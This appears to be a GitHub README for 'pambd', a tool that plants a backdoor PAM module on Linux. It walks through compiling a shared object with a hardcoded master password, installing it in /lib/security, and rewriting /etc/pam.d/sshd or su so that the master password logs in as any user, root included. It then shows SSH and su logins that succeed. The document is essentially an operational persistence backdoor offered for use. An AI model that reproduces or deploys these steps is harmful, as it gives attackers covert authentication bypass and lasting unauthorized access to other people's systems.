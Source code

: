 pambd
=====

Introduction
------------

This trick shows you how to create a PAM module backdoor that 
allows to execute an user login with your own custom password.

If you try to make the login with the real password of the target 
user and the authentication fails, the pam_auth.so switches to the 
pambd.so and viceversa.


Generate the backdoor
---------------------

If you get the error:

```bash
pambd.c:13:31: fatal error: security/pam_appl.h: No such file or directory
```

First install the package **libpam-dev** that contains the needed headers file for compilation:

```bash
deftcode pambd $ sudo apt-get install libpam0g-dev
```

Now edit the **pambd.c** and set your master custom password:

```c
#define MYPASSWD "my_master_passwd"
```

After that, generate the pam backdoor with:
(It needs the root permissions)

```bash
deftcode pambd $ sudo sh gen.sh
```

This will generate the pam backdoor at **/lib/security/pambd.so**.


Configure the PAM service you want to hijack
--------------------------------------------

Edit the **/etc/pam.d/sshd** or other that use PAM like **/etc/pam.d/su** and then replace the content with these lines:

```bash
nauth           sufficient      pam_rootok.so
auth            sufficient      pam_unix.so     # This must be 'sufficient'.
account         required        pam_unix.so
session         required        pam_unix.so
auth            sufficient      pambd.so        # This is our pam backdoor.
account         sufficient      pambd.so        # --
```


Test the backdoor
-----------------

After you have created the pambd backdoor, you can test It.

```bash
deftcode pambd $ file /lib/security/pambd.so 
/lib/security/pambd.so: ELF 64-bit LSB  shared object, x86-64, version 1 (SYSV), dynamically linked, not stripped
```

Example with the **SSH** service:

```bash
deftcode pambd $ ssh eurialo@deftcode.local
eurialo@deftcode.local's password: 

# eg. enter: my_master_passwd or real_user_password

Last login: Thu May 21 05:55:13 2015 from localhost
deftcode ~ $ 
```

Example with **su**:

```bash
deftcode pambd $ su -
Password: 

# eg. enter: my_master_passwd or real_user_password

deftcode ~ # 
```
